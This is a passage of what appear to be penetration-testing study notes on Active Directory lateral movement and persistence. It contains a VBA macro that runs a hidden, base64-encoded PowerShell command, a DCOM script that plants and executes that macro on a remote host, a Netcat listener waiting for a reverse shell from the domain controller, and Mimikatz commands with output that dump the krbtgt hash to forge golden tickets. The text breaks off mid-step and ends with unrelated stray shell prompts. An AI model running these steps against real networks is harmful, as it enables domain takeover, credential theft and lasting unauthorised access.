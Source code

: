         Str = Str + "powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4Ad"
        ...
        Str = Str + "AXQA6ADoAUwB0AGEAcgB0ACgAJABzACkAOwA="
        Shell (Str)
    End Sub
    ```
2. PoC code to execute the macro remotely
    ```pwsh
    $com = [activator]::CreateInstance([type]::GetTypeFromProgId("Excel.Application", "192.168.1.110"))

    $LocalPath = "C:\Users\jeff_admin.corp\myexcel.xls"

    $RemotePath = "\\192.168.1.110\c$\myexcel.xls"

    [System.IO.File]::Copy($LocalPath, $RemotePath, $True)

    $Path = "\\192.168.1.110\c$\Windows\sysWOW64\config\systemprofile\Desktop"

    $temp = [system.io.directory]::createDirectory($Path)

    $Workbook = $com.Workbooks.Open("C:\myexcel.xls")

    $com.Run("mymacro")
    ```
3. Before executing the macro, we'll start a Netcat listener on the Windows 10 client to accept the reverse command shell from the domain controller:
    ```
    PS C:\Tools\practical_tools> nc.exe -lvnp 4444
    ```
## Active Directory Persistence
### Golden Tickets
Going back to the explanation of Kerberos authentication, we recall that when a user submits a request for a TGT, the KDC encrypts the TGT with a secret key known only to the KDCs in the domain. This secret key is actually the password hash of a domain user account called **krbtgt**.

If we are able to get our hands on the krbtgt password hash, we could create our own self-made custom TGTs, or **golden tickets**.

At this stage of the engagement, we should have access to an account that is a member of the Domain Admins group or we have compromised the domain controller itself.

With this kind of access, we can extract the password hash of the krbtgt account with Mimikatz.

1. log in to the domain controller via remote desktop and issue the lsadump::lsa command as displayed below:
    ```cmd
    mimikatz # privilege::debug
    Privilege '20' OK

    mimikatz # lsadump::lsa /patch
    Domain : CORP / S-1-5-21-1602875587-2787523311-2599479668
    ...
    RID  : 000001f6 (502)
    User : krbtgt
    LM   :
    NTLM : 75b60230a2394a812000dbfad8415965
    ...
    ```
2. Creating the golden ticket and injecting it into memory does not require any administrative privileges, and can even be performed from a computer that is not joined to the domain. We'll take the hash and continue the procedure from a compromised workstation.
    ```cmd
    mimikatz # kerberos::purge
    Ticket(s) purge for current session is OK


[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname